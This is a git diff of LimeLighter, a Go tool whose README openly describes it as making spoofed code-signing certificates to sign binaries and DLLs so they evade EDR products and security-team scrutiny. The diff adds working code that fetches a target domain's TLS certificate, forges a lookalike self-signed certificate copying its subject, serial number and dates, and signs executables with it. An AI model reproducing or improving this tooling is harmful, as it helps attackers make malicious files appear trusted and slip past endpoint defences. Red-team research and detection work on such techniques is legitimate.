

Version 1.2

diff --git a/Limelighter.go b/Limelighter.go
@@ -1,12 +1,22 @@
 package main
 
 import (
+	"bytes"
+	"crypto/rand"
+	"crypto/rsa"
+	"crypto/tls"
+	"crypto/x509"
+	"crypto/x509/pkix"
+	"encoding/pem"
 	"flag"
 	"fmt"
 	"io"
 	"log"
+	crand "math/rand"
 	"os"
 	"os/exec"
+	"strings"
+	"time"
 
 	"github.com/fatih/color"
 )
@@ -33,30 +43,135 @@ func printDebug(format string, v ...interface{}) {
 	}
 }
 
-func GeneratePFK(domain string, password string, pfx string) {
+const letters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
 
-	cmd := exec.Command("openssl", "req", "-x509", "-newkey", "rsa:4096", "-passout", "pass:"+password+"", "-sha256", "-keyout", ""+domain+".key", "-out", ""+domain+".crt", "-subj", "/CN="+domain+"", "-days", "600")
-	err := cmd.Run()
-	if err != nil {
-		log.Fatalf("cmd.Run() failed with %s\n", err)
+func VarNumberLength(min, max int) string {
+	var r string
+	crand.Seed(time.Now().UnixNano())
+	num := crand.Intn(max-min) + min
+	n := num
+	r = RandStringBytes(n)
+	return r
+}
+func RandStringBytes(n int) string {
+	b := make([]byte, n)
+	for i := range b {
+		b[i] = letters[crand.Intn(len(letters))]
+
 	}
-	printDebug("[!] Created - %s and %s \n", domain+".key", domain+".crt")
-	cmd = exec.Command("openssl", "pkcs12", "-export", "-name", ""+domain+"", "-passin", "pass:"+password+"", "-passout", "pass:"+password+"", "-out", pfx, "-inkey", ""+domain+".key", "-in", ""+domain+".crt")
-	err = cmd.Run()
-	if err != nil {
-		log.Fatalf("cmd.Run() failed with %s\n", err)
-	}
-	printDebug("[!] Created - %s\n", domain+".pfx")
+	return string(b)
 }
 
-func SignExecutable(domain string, password string, pfx string, filein string, fileout string) {
+func GenerateCert(domain string, inputFile string) {
+	var err error
+	rootKey, err := rsa.GenerateKey(rand.Reader, 4096)
+	if err != nil {
+		panic(err)
+	}
+	certs, err := GetCertificatesPEM(domain + ":443")
+	if err != nil {
+		os.Chdir("..")
+		foldername := strings.Split(inputFile, ".")
+		os.RemoveAll(foldername[0])
+		log.Fatal("Error: The domain: " + domain + " does not exist or is not accessible from the host you are compiling on")
+	}
+	block, _ := pem.Decode([]byte(certs))
+	cert, _ := x509.ParseCertificate(block.Bytes)
 
-	cmd := exec.Command("osslsigncode", "sign", "-pkcs12", pfx, "-n", ""+domain+"", "-in", ""+filein+"", "-out", ""+fileout+"", "-pass", ""+password+"")
+	keyToFile(domain+".key", rootKey)
+
+	SubjectTemplate := x509.Certificate{
+		SerialNumber: cert.SerialNumber,
+		Subject: pkix.Name{
+			CommonName: cert.Subject.CommonName,
+		},
+		NotBefore:             cert.NotBefore,
+		NotAfter:              cert.NotAfter,
+		BasicConstraintsValid: true,
+		IsCA:                  true,
+		KeyUsage:              x509.KeyUsageDigitalSignature | x509.KeyUsageCertSign,
+		ExtKeyUsage:           []x509.ExtKeyUsage{x509.ExtKeyUsageServerAuth, x509.ExtKeyUsageClientAuth},
+	}
+	IssuerTemplate := x509.Certificate{
+		SerialNumber: cert.SerialNumber,
+		Subject: pkix.Name{
+			CommonName: cert.Issuer.CommonName,
+		},
+		NotBefore: cert.NotBefore,
+		NotAfter:  cert.NotAfter,
+	}
+	derBytes, err := x509.CreateCertificate(rand.Reader, &SubjectTemplate, &IssuerTemplate, &rootKey.PublicKey, rootKey)
+	if err != nil {
+		panic(err)
+	}
+	certToFile(domain+".pem", derBytes)
+
+}
+
+func keyToFile(filename string, key *rsa.PrivateKey) {
+	file, err := os.Create(filename)
+	if err != nil {
+		panic(err)
+	}
+	defer file.Close()
+	b, err := x509.MarshalPKCS8PrivateKey(key)
+	if err != nil {
+		fmt.Fprintf(os.Stderr, "Unable to marshal RSA private key: %v", err)
+		os.Exit(2)
+	}
+	if err := pem.Encode(file, &pem.Block{Type: "RSA PRIVATE KEY", Bytes: b}); err != nil {
+		panic(err)
+	}
+}
+
+func certToFile(filename string, derBytes []byte) {
+	certOut, err := os.Create(filename)
+	if err != nil {
+		log.Fatalf("[-] Failed to Open cert.pem for Writing: %s", err)
+	}
+	if err := pem.Encode(certOut, &pem.Block{Type: "CERTIFICATE", Bytes: derBytes}); err != nil {
+		log.Fatalf("[-] Failed to Write Data to cert.pem: %s", err)
+	}
+	if err := certOut.Close(); err != nil {
+		log.Fatalf("[-] Error Closing cert.pem: %s", err)
+	}
+}
+
+func GetCertificatesPEM(address string) (string, error) {
+	conn, err := tls.Dial("tcp", address, &tls.Config{
+		InsecureSkipVerify: true,
+	})
+	if err != nil {
+		return "", err
+	}
+	defer conn.Close()
+	var b bytes.Buffer
+	for _, cert := range conn.ConnectionState().PeerCertificates {
+		err := pem.Encode(&b, &pem.Block{
+			Type:  "CERTIFICATE",
+			Bytes: cert.Raw,
+		})
+		if err != nil {
+			return "", err
+		}
+	}
+	return b.String(), nil
+}
+
+func GeneratePFK(password string, domain string) {
+	cmd := exec.Command("openssl", "pkcs12", "-export", "-out", domain+".pfx", "-inkey", domain+".key", "-in", domain+".pem", "-passin", "pass:"+password+"", "-passout", "pass:"+password+"")
 	err := cmd.Run()
 	if err != nil {
 		log.Fatalf("cmd.Run() failed with %s\n", err)
 	}
-	printDebug("[!] Created and Signed - %s\n", fileout)
+}
+
+func SignExecutable(password string, pfx string, filein string, fileout string) {
+	cmd := exec.Command("osslsigncode", "sign", "-pkcs12", pfx, "-in", ""+filein+"", "-out", ""+fileout+"", "-pass", ""+password+"")
+	err := cmd.Run()
+	if err != nil {
+		log.Fatalf("cmd.Run() failed with %s\n", err)
+	}
 }
 
 func Check(check string) {
@@ -74,7 +189,7 @@ func options() *FlagOptions {
 	outFile := flag.String("O", "", "Signed file name")
 	inputFile := flag.String("I", "", "Unsiged file name to be signed")
 	domain := flag.String("Domain", "", "Domain you want to create a fake code sign for")
-	password := flag.String("Password", "", "Password for real or fake certificate")
+	password := flag.String("Password", "", "Password for real certificate")
 	real := flag.String("Real", "", "Path to a valid .pfx certificate file")
 	verify := flag.String("Verify", "", "Verifies a file's code sign certificate")
 	debug := flag.Bool("debug", false, "Print debug statements")
@@ -110,9 +225,6 @@ func main() {
 	if opt.real == "" && opt.domain == "" && opt.verify == "" {
 		log.Fatal("Error: Please specify a valid path to a .pfx file or specify the domain to spoof")
 	}
-	if opt.verify == "" && opt.password == "" {
-		log.Fatal("Error: Please specify a password for the signing")
-	}
 
 	if opt.verify != "" {
 		fmt.Println("[*] Checking code signed on file: " + opt.verify)
@@ -122,21 +234,24 @@ func main() {
 
 	if opt.real != "" {
 		fmt.Println("[*] Signing " + opt.inputFile + " with a valid cert " + opt.real)
-		SignExecutable(opt.domain, opt.password, opt.real, opt.inputFile, opt.outFile)
+		SignExecutable(opt.password, opt.real, opt.inputFile, opt.outFile)
 
 	} else {
+		password := VarNumberLength(8, 12)
 		pfx := opt.domain + ".pfx"
-		fmt.Println("[*] Signing " + opt.inputFile + " with a fake cert " + pfx)
-		GeneratePFK(opt.domain, opt.password, pfx)
-		SignExecutable(opt.domain, opt.password, pfx, opt.inputFile, opt.outFile)
+		fmt.Println("[*] Signing " + opt.inputFile + " with a fake cert")
+		GenerateCert(opt.domain, opt.inputFile)
+		GeneratePFK(password, opt.domain)
+		SignExecutable(password, pfx, opt.inputFile, opt.outFile)
+
 	}
 	fmt.Println("[*] Cleaning up....")
-	printDebug("[!] Deleting %s\n", opt.domain+".crt")
-	os.Remove("" + opt.domain + ".crt")
-	printDebug("[!] Deleting %s\n", opt.domain+".key")
-	os.Remove("" + opt.domain + ".key")
-	printDebug("[!] Deleting %s\n", opt.domain+".pfx")
-	os.Remove("" + opt.domain + ".pfx")
+	printDebug("[!] Deleting " + opt.domain + ".pem\n")
+	os.Remove(opt.domain + ".pem")
+	printDebug("[!] Deleting " + opt.domain + ".key\n")
+	os.Remove(opt.domain + ".key")
+	printDebug("[!] Deleting " + opt.domain + ".pfx\n")
+	os.Remove(opt.domain + ".pfx")
 	fmt.Println(color.GreenString("[+] ") + "Signed File Created.")
 
 }

diff --git a/README.md b/README.md
@@ -1,13 +1,13 @@
-# Limelighter
 
-A tool that creates a spoof code signing certificates and sign binaries and DLL files to help evade EDR products and avoid MSS and SoCs. LimeLighter can also use valid code signing certificates to sign files on Linux or OSX. This eliminates the need for a Windows VM and SDK library to sign valid code, allowing for easy on the fly code signing.
+# LimeLighter
 
-Limelighter can use a fully qualified domain name such as `acme.com` or simply `acme corp llc` (please note if your using spaces you will need to encapsulate them with "".
+A tool which creates a spoof code signing certificates and sign binaries and DLL files to help evade EDR products and avoid MSS and sock scruitney. LimeLighter can also use valid code signing certificates to sign files. Limelighter can use a fully qualified domain name such as `acme.com`.
+
 
 ## Contributing
-Limelighter was developed in golang.
+LimeLighter was developed in golang.
 
-Make sure that the following are installed on your OS:
+Make sure that the following are installed on your OS 
 
 ```
 openssl
@@ -24,6 +24,7 @@ Then build it
 ```
 go build LimeLighter.go
 ```
+
 
 
 
@@ -50,9 +51,9 @@ Usage of ./LimeLighter:
   -O string
         Signed file name
   -Password string
-        Password for real or fake certificate
+        Password for real  certificate
   -Real string
-        Path to a valid .pfx or .p12 certificate file
+        Path to a valid .pfx certificate file
   -Verify string
         Verifies a file's code sign certificate
   -debug
@@ -60,14 +61,14 @@ Usage of ./LimeLighter:
 
 ```
 
-To sign a file you can use the command option `Domain` and `Password` to generate a fake code signing certificate. The password can be anything you want.
+To sign a file you can use the command option `Domain` to generate a fake code signing certificate.
 
-![Signing](Screenshots/Signing.png)
+![Signing](Screenshots/Signing.jpg)
 
-To sign a file with a valid code signing certificate use the `Real` and `Password` to sign a file with a valid code signing certificate.
+to sign a file with a valid code signing certificate use the `Real` and `Password` to sign a file with a valid code signing certificate.
 
 
 To verify a signed file use the `verify` command.
 
-![Verifying](Screenshots/Verifing.png)
-![WindowsVerifying](Screenshots/WindowsVerifying.png)
+![Verifying](Screenshots/Verifing.jpg)
+![WindowsVerifying](Screenshots/WindowsVerifying.jpg)
